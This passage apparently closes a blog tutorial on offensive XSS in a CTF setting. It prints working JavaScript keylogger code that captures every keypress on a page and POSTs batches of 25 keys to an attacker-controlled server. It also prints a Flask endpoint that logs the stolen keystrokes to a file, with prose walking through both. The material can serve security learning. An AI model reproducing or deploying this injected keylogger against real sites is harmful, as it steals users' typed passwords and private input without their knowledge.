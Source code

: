 ```
document.onkeypress = function (e) {
    keys += e.key;
    if (keys.length >= 25) {
        send = keys;
        keys = "";
        sendKeys(send);
    }
}

function sendKeys(keys) {
    keyFetchUrl = "http://127.0.0.1:5000/keys"
    fetch(keyFetchUrl,{
                body: "keys=" + encodeURIComponent(keys),
                headers:
                {
                    "Content-Type": "application/x-www-form-urlencoded"
                },
                method: "POST"
            })

}

```
<br>
Let's start with the document.onkeypress. It will execute on every keypress. It is deprecated function, however it still works well and perfect for this little CTF. In the function the parameter 'e' is the event that we pass down to the function which will execute on every keypress. We add the new key to our saved keys then we check if our saved keys variable length reached 25. If it did it is time to send the content back to us with a simple send function we used previously. We should not forget to set back our keys variable to an empty string so that the process can restart. In the server part there is no new implemented things.
<br>
```
@app.route("/keys", methods=['POST'])
def keys():
    keys = request.form["keys"]
    f = open("savedkeys.txt", "a")
    f.write(keys)
    f.write("\n")
    f.close()
    return ""
```
<br>
As we can see we grab the payload of the post request and saved it in a file. We should remember that after executing the script, we will only see results on our server after the "admin" pressed at least 25 keys.
<br>
![](/img/OffensiveXSS2/workingKeylogger.PNG)

<h2> End: </h2>
So now we have a few scripts to exploit different vulnerabilities by using XSS. In the next post, we will go a little further upgrading these scripts and many more will come.



